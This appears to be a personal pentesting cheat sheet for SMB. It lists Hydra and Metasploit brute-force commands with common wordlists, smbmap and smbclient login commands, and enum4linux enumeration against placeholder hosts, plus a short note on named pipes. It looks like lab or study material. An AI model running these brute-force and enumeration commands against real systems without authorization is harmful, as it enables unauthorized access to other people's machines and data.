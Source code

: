 
# SMB Dictionary Attack


## Metasploit
- auxiliary/scanner/smb/smb_login
	- wordlist >> /usr/share/wordlists/metasploit/unix_passwords.txt

## Hydra
- hydra -l admin -P /usr/share/wordlists/rockyou.txt IP_addr smb 


## smbmap     >> Login Access
```
smbmap -H IP-addr -u admin -P password
```

## smbclient  >> Login Access
```
smbclient -L IP_addr -U username
```
```
smbclient //IP_addr/username -U username
```
	help
	ls
	get
	exit

# PIPE
	The way the services talk to each other is through pipes.
	Named pipes are pipes that are known.
	If we get into SMB, there is a chance that we can get into other services that are piped through it. 

### Metasploit
```
auxiliary/scanner/smb/pipe_auditor
```
### enum4linux
```
enum4linux -r -u "admin" -p "password" IP_addr
```
- -r = User's SID








